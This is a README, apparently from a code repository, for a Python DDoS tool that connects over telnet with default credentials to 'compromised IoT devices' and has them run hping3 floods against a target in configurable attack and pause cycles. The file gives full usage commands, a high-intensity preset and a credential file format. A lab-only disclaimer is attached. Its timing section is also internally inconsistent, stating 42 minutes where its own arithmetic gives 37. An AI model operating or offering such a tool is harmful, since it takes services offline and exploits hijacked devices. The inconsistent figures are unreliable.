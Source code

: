 # DDoS Cycler - Advanced Timing Pattern

## Overview
The DDoS Cycler script has been updated with a sophisticated timing pattern that implements:
- **4-minute attack phases** followed by **2-minute regular pauses**
- **5-minute long pauses** after every **3 attacks**
- Configurable parameters for all timing aspects

## New Timing Pattern

### Default Pattern (6 cycles total):
1. **Attack 1** (4 min) → **Pause** (2 min)
2. **Attack 2** (4 min) → **Pause** (2 min)  
3. **Attack 3** (4 min) → **Long Pause** (5 min)
4. **Attack 4** (4 min) → **Pause** (2 min)
5. **Attack 5** (4 min) → **Pause** (2 min)
6. **Attack 6** (4 min) → **Complete**

### Total Duration: 42 minutes
- 6 attacks × 4 minutes = 24 minutes
- 4 regular pauses × 2 minutes = 8 minutes  
- 1 long pauses × 5 minutes = 5 minutes
- **Total: 37 minutes**

## Command Line Usage

### Basic Usage
```bash
python ddos_cycler.py --target 192.168.1.100 --devices devices_config.json
```

### Advanced Timing Configuration
```bash
python ddos_cycler.py \
  --target 192.168.1.100 \
  --devices devices_config.json \
  --attack-time 4 \
  --pause-time 2 \
  --long-pause 5 \
  --cycles 6 \
  --attacks-per-group 3
```

### Single Device Quick Start
```bash
python ddos_cycler.py \
  --target 192.168.1.100 \
  --add-device 192.168.1.10 admin admin123
```

## New Command Line Arguments

| Argument | Default | Description |
|----------|---------|-------------|
| `--attack-time` | 4 | Attack duration in minutes |
| `--pause-time` | 2 | Regular pause duration in minutes |
| `--long-pause` | 5 | Long pause duration in minutes after attack groups |
| `--attacks-per-group` | 3 | Number of attacks before triggering long pause |
| `--cycles` | 6 | Total number of attack cycles |

## Interactive Configuration

When run without command line arguments, the script provides an interactive setup that includes:

1. **Device Configuration**
   - Add/remove attack devices
   - Load/save device configurations
   - Validate device credentials

2. **Advanced Timing Setup**
   - Configure attack duration
   - Set regular pause duration
   - Set long pause duration
   - Define attacks per group
   - Set total cycles

3. **Real-time Calculations**
   - Total estimated duration
   - Pattern visualization
   - Start/end time predictions

## Configuration Files

### Device Configuration (devices_config.json)
```json
[
  {
    "ip": "192.168.1.10",
    "username": "admin",
    "password": "admin123"
  },
  {
    "ip": "192.168.1.11", 
    "username": "root",
    "password": "password"
  }
]
```

## Features

### Enhanced Monitoring
- Real-time countdown timers for each phase
- Phase-specific status messages
- Detailed logging for each attack device
- Estimated completion times

### Flexible Patterns
- Configurable attack groups
- Variable pause durations
- Scalable to any number of cycles
- Custom timing patterns

### Robust Error Handling
- Graceful shutdown with Ctrl+C
- Thread management and cleanup
- Device connection error recovery
- Comprehensive logging

## Example Patterns

### High-Intensity Pattern
```bash
python ddos_cycler.py \
  --attack-time 6 \
  --pause-time 1 \
  --long-pause 3 \
  --attacks-per-group 2 \
  --cycles 8
```

### Extended Testing Pattern  
```bash
python ddos_cycler.py \
  --attack-time 3 \
  --pause-time 3 \
  --long-pause 10 \
  --attacks-per-group 5 \
  --cycles 15
```

### Quick Validation Pattern
```bash
python ddos_cycler.py \
  --attack-time 1 \
  --pause-time 1 \
  --long-pause 2 \
  --attacks-per-group 2 \
  --cycles 4
```

## Safety Features

- **Explicit confirmation** required before starting attacks
- **Graceful shutdown** with signal handling
- **Thread cleanup** on interruption
- **Educational warnings** and disclaimers

## Lab Environment Setup

1. **Target System**: MQTT broker or IoT device (port 1883)
2. **Attack Devices**: Compromised IoT devices with hping3 installed
3. **Network Isolation**: Ensure attacks remain within lab environment
4. **Monitoring Tools**: Network analyzers, resource monitors

## Educational Use Only

⚠️ **WARNING**: This tool is designed exclusively for controlled laboratory environments and security research. Never use against systems you do not own or have explicit permission to test.

## Dependencies

- Python 3.7+
- telnetlib (deprecated in Python 3.13, will need replacement)
- hping3 on attack devices
- Network access to target and attack devices

## Troubleshooting

### Common Issues
1. **Telnet connection failures**: Verify device IPs and credentials
2. **Sudo password prompts**: Ensure devices can run hping3 with sudo
3. **Network timeouts**: Check network connectivity and firewall settings
4. **Process cleanup**: May require manual pkill hping3 on devices

### Debug Mode
Add verbose logging by modifying the script or redirecting output:
```bash
python ddos_cycler.py --target 192.168.1.100 --devices devices_config.json > attack_log.txt 2>&1
```

